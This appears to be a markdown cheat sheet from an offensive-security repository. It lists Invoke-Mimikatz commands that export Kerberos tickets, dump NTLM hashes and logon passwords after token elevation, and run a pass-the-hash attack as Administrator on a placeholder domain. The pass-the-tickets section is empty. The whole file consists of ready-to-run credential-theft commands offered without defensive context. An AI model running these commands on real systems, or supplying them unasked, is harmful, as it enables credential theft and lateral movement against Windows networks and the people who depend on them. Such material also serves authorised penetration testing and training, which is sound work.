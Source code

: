 ## Mimikatz dump tickets


```
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```
## Mimikatz dump NTLM hashes

```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'
```

## Mimikatz pass the hashes

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:some.domain.local /ntlm:brydaafdsafd3524frw4fe4f /run:powershell.exe"'
```

## Mimikatz pass the tickets

```
```

![image](https://github.com/Luminous-split/LifeLongCommands/assets/116489011/e7174e46-0541-4686-bbf7-17e71e3bc679)
